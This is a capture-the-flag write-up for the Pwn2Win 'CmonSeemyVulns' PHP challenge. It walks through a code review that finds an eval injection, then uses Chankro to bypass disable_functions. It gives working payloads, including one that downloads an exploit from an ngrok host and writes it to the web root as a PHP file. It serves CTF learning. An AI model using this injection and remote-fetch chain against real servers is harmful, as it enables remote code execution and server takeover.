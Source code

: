 ```yaml
---
title: Pwn2Win - CmonSeemyVulns - Writeup
tags: pwn2win web php disable_functions chankro
---
```


# Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given the source code and the Dockerfile, we can build it locally and work on it directly on our own system.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

# Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

The 7th line of the code appears to contain an `eval` function that is called within the `do_calcs` function. 
This function is called in line 17 of the code. Before we can examine this further, we need to check the 4th line of the code, which appears to contain a regular expression pattern. 
This suggests that our PHP code must be placed within `{{PHP EVAL CODE}}` in order to be evaluated properly.

![code](https://user-images.githubusercontent.com/84577967/174358220-78ffee4d-d1ee-49f5-a2c8-4b474068e8b5.png)

# Solution

Let's try to send a simple payload `200,{{phpinfo()}}`

![phpinfo](https://user-images.githubusercontent.com/84577967/174358466-4c209820-f9e6-48ca-892a-030d8d922abf.png)

This simple `phpinfo` function is going to be executed

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But if we take a look on the disabled functions list, we see a list of functions that are restricted or not available for use.

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

In cases where we need to bypass disabled functions, we can use [Chankro](https://github.com/TarlogicSecurity/Chankro)

First let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Now that we have saved the shell, we can host it on a local web server using PHP or Python.

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

![payload](https://user-images.githubusercontent.com/84577967/174358048-7ea473ea-06b6-407b-9f1e-e89ff5b433ad.png)

After that we can browser the file http://127.0.0.1:1337/exploit.php

# Flag

We should be able to retrieve the flag easily http://127.0.0.1:1337/flag.txt
